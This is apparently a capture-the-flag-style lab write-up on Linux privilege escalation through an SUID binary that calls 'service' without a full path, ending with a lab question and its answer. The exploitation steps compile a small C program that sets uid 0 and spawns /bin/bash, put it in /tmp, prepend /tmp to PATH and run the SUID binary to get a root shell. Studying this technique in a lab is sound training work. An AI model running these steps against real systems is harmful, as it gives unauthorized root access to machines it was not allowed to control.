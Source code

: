 **Detection**

Linux VM

1. In command prompt type: 

```
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20240601222555.png]]

2. From the output, make note of all the SUID binaries.

3. In command prompt type: 

```
strings /usr/local/bin/suid-env
```

![[Pasted image 20240601222738.png]]


4. From the output, notice the functions used by the binary.

**Exploitation**

Linux VM

1. In command prompt type:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

2. In command prompt type: 
   
```
gcc /tmp/service.c -o /tmp/service
```

3. In command prompt type: 
   
```
export PATH=/tmp:$PATH
```

4. In command prompt type: 
   
```
/usr/local/bin/suid-env
```

5. In command prompt type: 
   
```
id
```

![[Pasted image 20240601222829.png]]


Answer the questions below

| Question                                                               | Answer                |
| ---------------------------------------------------------------------- | --------------------- |
| What is the last line of the "strings /usr/local/bin/suid-env" output? | service apache2 start |
